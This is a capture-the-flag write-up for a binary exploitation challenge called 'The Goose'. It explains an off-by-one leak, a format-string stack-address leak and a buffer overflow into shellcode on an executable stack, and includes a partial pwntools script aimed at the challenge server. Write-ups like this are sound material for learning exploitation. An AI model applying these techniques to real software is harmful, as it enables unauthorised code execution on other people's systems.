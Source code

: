 #  The Goose

**Challenge Description**:
When the honking gets tough, you better brush up on your basics.

**Points**:
50

**Solution**:
```
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```
Stack is executeable and there is no canary.
Okay. First the program expects us to send a username, and then guess a number between 10 and 100. I guess this could be done manually - however - there is a off-by-one vulnerability here. We can fill the entire buffer of our username, and then it will leak the byte containing the number that we're supposed to guess. 
Neat! Then we have the first part of our solution script:
```python
from pwn import *

e = ELF('./chall')
# p = e.process()
p = remote('34.45.81.67', 16004)

context.binary = e
context.arch = 'amd64'
p.sendlineafter(b'> ', b'A'*64)
p.recvuntil(b'A'*64)
nLeak = p.recvuntil(b'.').replace(b'.', b'')
nLeakInt = int.from_bytes(nLeak, 'little')
print("Leaked number: ", nLeakInt)
p.sendlineafter(b'how many honks?', f'{nLeakInt}'.encode())
```
This will lead us into this function:
```c
void highscore(void) {
  undefined1 local_178 [128];
  char local_f8 [31];
  undefined1 local_d9;
  undefined1 local_78 [32];
  char local_58 [80];
  
  builtin_strncpy(local_58,
                  "wow %s you\'re so good. what message would you like to leave to the world?",0x4a)
  ;
  printf("what\'s your name again?");
  __isoc99_scanf(&DAT_001024eb,local_78);
  local_d9 = 0;
  sprintf(local_f8,local_58,local_78);
  printf(local_f8);
  read(0,local_178,0x400);
  printf("got it. bye now.");
  return;
}
```
I quickly noticed 2 things. There is a format string vulnerability and we can overflow `local_178`
That menas that we need to leak an adress to the stack. First we can send `%p` to the `scanf` which will leak the address of `stack + 0x126`. Then we fill the stack with our shell script (generated by pwntools) and jump to it.
[Solution script](./exploit.py)